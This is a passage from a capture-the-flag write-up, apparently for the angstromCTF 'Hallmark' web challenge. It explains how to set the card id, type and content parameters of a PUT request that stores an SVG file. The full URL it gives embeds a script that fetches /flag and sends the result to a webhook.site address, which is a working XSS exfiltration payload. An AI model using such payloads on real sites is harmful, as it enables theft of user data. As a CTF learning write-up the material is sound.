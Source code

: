 ![Heart card](/assets/img/Hallmark3.png){: .shadow  }

So our uuid is `id=db106a88-01ae-4540-89c7-f0d7207eb71e`, now our `PUT` request parameter should be as follow:

* set the id to our id `id=db106a88-01ae-4540-89c7-f0d7207eb71e`
* type to 1 element array containing image/svg+xml `type[]=image/svg+xml`
* svg could be anything(we don't need it since we are not using those specified SVGs)
* content to our XSS-inflicted SVG

and the URL will look like this:
```url
https://hallmark.web.actf.co/card?id=db106a88-01ae-4540-89c7-f0d7207eb71e&type[]=image/svg%2Bxml&svg=&content=<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">
<script>
fetch("/flag").then((response) => response.text()).then((text) => location.href="https://webhook.site/your_webhook_id?s="+text);
</script>
</svg>
```

And then we do the PUT request using curl
